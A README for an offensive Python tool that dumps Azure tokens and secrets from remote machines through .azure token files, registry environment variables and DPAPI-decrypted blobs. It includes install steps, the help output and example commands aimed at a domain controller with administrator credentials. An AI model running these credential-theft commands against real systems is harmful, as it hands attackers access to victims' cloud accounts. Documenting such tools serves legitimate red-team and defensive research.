 # Cloud Token Stealer

A python tool to dump tokens and password allowing access to cloud services (Azure, AWS and GCP). <br>
Currently, only Azure is supported.

## Description

Cloud-token-stealer has one goal:

Dump tokens or passwords from remote computers, so we can connect to cloud environments

Cloud-token-stealer support four different methods of stealing tokens.

1. Scan for accessTokens.json files in the .azure directories generated by PowerShell az login 
2. Dump Azure secrets commonly saved in Environment Variables (Registry)
3. Decrypt encrypted Credentials blobs stored by Web browsers (DPAPI) for SSO
4. Decrypt Microsoft blobs that contains refreshToken for Azure assets


## Installation


Cloud-token-stealer is written in Python 3.7
All requirements are captured in the repo's requirements.txt.

```
git clone https://github.com/Cymptom-Research/azure-token-stealer.git 
cd cloud-token-stealer
pip install -r requirements.txt
```

## Usage

```
usage: cloud_stealer_tool.py [-h] -t TARGET -u username -p PASSWORD
                             [-d DOMAIN] [-e] [-D] [-f] [-a] [-debug]

Queries a specified computer and dump Azure credentials or tokens. 
Require administrative access to the machine

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target to query (IP or Hostname)
  -u username, --user username
                        username for authentication
  -p PASSWORD, --password PASSWORD
                        password for authentication
  -d DOMAIN, --domain DOMAIN
                        domain name
  -e, --env             search in environment variable
  -D, --dpapi           search in dpapi files
  -f, --file            search in .azure file
  -a, --all             search all methods
  -debug                Turn DEBUG output ON


```
### Examples

Dump all 
```
python3 cloud_stealer_tool.py --target adcon1.cymptom.com --user administrator --password Cyber123 -d cymptom.com
```

Dump only from DPAPI:
```
python3 cloud_stealer_tool.py --target adcon1.cymptom.com --user administrator --password Cyber123 -d cymptom.com -D 
```